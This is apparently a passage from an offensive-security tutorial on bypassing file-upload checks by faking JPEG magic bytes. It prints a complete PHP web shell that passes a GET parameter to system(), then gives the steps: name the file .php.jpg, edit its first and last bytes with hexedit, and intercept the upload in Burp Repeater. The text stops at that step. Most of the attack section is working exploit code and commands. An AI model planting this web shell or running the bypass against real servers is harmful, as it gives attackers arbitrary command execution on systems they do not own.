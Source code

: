 ## **Overview**

Magic Bytes are Basically strings that indicates a file type. You can check out a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).



## **Exploitation**


- create a file with `.php.jpg` as the extension 
- Input the following code into the file and save it

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Since in this case we are uploading a `JPG` or `PNG` file, Files like this usually have one of the following magic numbers: `FFD8 DDE0`, `FFD8 FFDB` or `FFD8 FFE1`
- We can then change the first bytes and the last bytes using **hexedit** - `hexedit shell.php`
	- First bytes will be: `FFD8 FFDB`
	- Last bytes will be: `FFD9` (Always have to be)
	- Ctrl+S - To save

![](https://i.imgur.com/KsVAtWP.png)

- Open up burp suite and try to upload this file then intercept request
- Forward request to **Repeater**

 